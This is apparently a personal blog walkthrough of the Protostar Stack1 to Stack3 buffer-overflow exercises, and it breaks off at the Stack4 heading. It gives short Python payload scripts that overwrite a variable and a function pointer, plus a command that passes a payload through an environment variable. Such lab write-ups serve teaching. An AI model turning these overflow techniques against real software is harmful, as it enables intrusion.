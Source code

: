 When I first got this working, I legit jumped out of my chair! 🎉

## Stack1: Being Picky About Our Overflow

Stack1 is like Stack0's slightly pickier sibling. Instead of just wanting any value in `modified`, it wants a specific one: 'dcba'.

```python
#!/usr/bin/env python

# Same deal as Stack0, but now we're being precise
SH = 'A'*64 + 'dcba'
print(SH)
```

## Stack2: Environment Variables - The Sneaky Way In

This one threw me for a loop at first. Instead of reading input directly, it pulls from an environment variable. Think of it as breaking in through the window instead of the door.

```python
#!/usr/bin/env python
import sys

SH = 'A'*64 + '\x0a\x0d\x0a\x0d'
sys.stdout.write(SH)
```

To run it:
```bash
env GREENIE="`python hack.py`" /opt/protostar/bin/stack2
```

Pro tip: I spent way too long getting weird results before realizing that environment variables can mess with your payload. Keep it clean!

## Stack3: Function Pointers - The Fun Begins

Now we're getting to the good stuff! Instead of just changing a value, we're hijacking a function pointer. It's like leaving a fake phone number that redirects to your actual number.

```python
#!/usr/bin/env python
import sys

# Address of our target function (win)
SH = 'A'*64 + '\x24\x84\x04\x08'
sys.stdout.write(SH)
```

Fun fact: I spent hours getting this wrong because I forgot about little-endian byte order. Remember: x86 reads bytes backwards! 

## Stack4: Return Address Shenanigans
